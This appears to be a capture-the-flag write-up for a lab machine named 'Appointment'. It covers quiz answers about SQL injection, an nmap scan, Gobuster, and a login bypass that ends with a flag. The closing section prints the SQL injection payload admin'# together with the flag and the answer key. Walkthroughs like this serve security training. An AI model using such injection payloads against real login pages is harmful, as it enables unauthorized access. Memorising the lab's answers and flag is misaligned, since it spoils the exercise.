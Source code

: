 <center>Appointment</center>







[toc]









## Appointment

> Appointment









### 1. task

1. What does the acronym SQL stand for?

```shell
Structured Query Language 
```

2. What is one of the most common type of SQL vulnerabilities?

```shell
SQL injection
```

3. What is the 2021 OWASP Top 10 classification for this vulnerability?

```shell
A03:2021-Injection
```

4. What does Nmap report as the service and version that are running on port 80 of the target?

```shell
nmap -sV -T5 10.129.140.138

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
```

5. What is the standard port used for the HTTPS protocol?

```shell
443
```

6. What is a folder called in web-application terminology?

```shell
directory
```

7. What is the HTTP response code is given for 'Not Found' errors?

```shell
404
```

8. Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?

```shell
dir
```

9. What single character can be used to comment out the rest of a line in MySQL?

```shell
#
```

10. If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?

```shell
Congratulations
```







### 3. flag

> 获取flag

```shell
# 80端口。访问 登陆框，看是否有sql注入。
http://10.129.140.138/

# burp抓包
username=admin&password=admin

# payould
username=admin'#&password=admin

# falg
Congratulations!

Your flag is: e3d0796d002a446c0e622226f42e9672
```



